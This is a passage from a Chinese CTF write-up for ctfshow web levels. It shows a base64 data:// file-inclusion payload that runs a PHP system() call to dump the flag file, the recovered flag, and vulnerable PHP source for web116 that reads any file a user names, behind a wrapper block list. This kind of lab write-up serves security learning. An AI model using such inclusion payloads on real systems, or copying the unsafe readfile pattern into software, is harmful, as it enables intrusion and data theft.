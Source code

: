 payload

```
?file=data://text/plain;base64, PD9waHAgc3lzdGVtKCdiYXNlNjQgZmwwZy5waHAnKTsgPz4
```

![image-20220713113222348](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131132452.png?x-oss-process=hzy)

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:24:37
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:25:00
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$flag="ctfshow{4dc213a5-7f9e-49bc-8d00-31104deb9091}";
```

# web116

进去之后就是一段视频,下载下来

![image-20220713113419642](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131134829.png?x-oss-process=hzy)

我省略了分离png的步骤,misc就不弄了,麻烦,总之就是把视频down下,然后用winhex分离出来一个图片

bp抓包文件包含,读源码![image-20220713113849280](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131138370.png?x-oss-process=hzy)

```
<?php
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|data|input|rot13|base64|string|log|sess/i',$x)){  // 过滤了这些
        die('too young too simple sometimes naive!');
    }
}
$file=isset($_GET['file'])?$_GET['file']:"5.mp4";
filter($file);
header('Content-Type: video/mp4');
header("Content-Length: $file");
readfile($file);
?>
```

![image-20220713114100730](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131141836.png?x-oss-process=hzy)
